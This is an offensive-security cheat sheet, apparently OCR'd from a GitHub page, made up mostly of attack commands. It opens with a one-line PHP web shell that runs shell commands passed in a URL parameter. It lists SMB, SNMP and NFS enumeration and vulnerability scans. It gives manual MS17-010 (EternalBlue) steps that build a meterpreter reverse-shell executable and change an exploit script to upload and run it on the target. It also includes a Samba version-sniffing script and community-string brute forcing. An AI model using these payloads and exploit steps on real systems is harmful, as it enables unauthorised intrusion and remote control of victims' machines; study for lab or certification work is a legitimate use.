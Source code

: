 # Alternative
<?php echo shell_exec($_GET["cmd"]);?>
SMB
nmap -p 445 -vv --script=smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse 10.10.10.10

nmap -p 445 -vv --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.10.10

smbmap -u jsmith -p password1 -d workgroup -H 10.10.10.10

enum4linux -av 10.10.10.10

rpcclient -U "" 10.10.10.10

smbclient //10.10.10.10/share
apt-get install -y cifs-utils
mount -t cifs 10.10.10.10:/share1 /test

# Manual MS17-010 exploitation
# https://github.com/worawit/MS17-010
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.10.10 lport=1337 -f exe > blue.exe

# Before
#smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
#service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')

# After
smb_send_file(smbConn, 'blue.exe', 'C', '/blue.exe')
service_exec(conn, r'cmd /c c:\\blue.exe')

# smbver.sh
#!/bin/sh
if [ -z $1 ]; then echo "Usage: ./smbver.sh RHOST {RPORT}" && exit; else rhost=$1; fi
if [ ! -z $2 ]; then rport=$2; else rport=139; fi
tcpdump -s0 -n -i tap0 src $rhost and port $rport -A -c 10 2>/dev/null | grep -i "samba\|s.a.m" | tr -d '.' | grep -oP 'UnixSamba.*[0-9a-z]' | tr -d '\n' & echo -n "$rhost: " &
echo "exit" | smbclient -L $rhost 1>/dev/null 2>/dev/null
echo "" && sleep .1

nmap --script=samba-vuln-cve-2012-1182  -p 139 10.10.10.10
SNMP
snmp-check 10.10.10.10

onesixtyone -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings_onesixtyone.txt 10.10.10.10 public

snmpwalk -v1 -c public 10.10.10.10
NFS
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.10.10

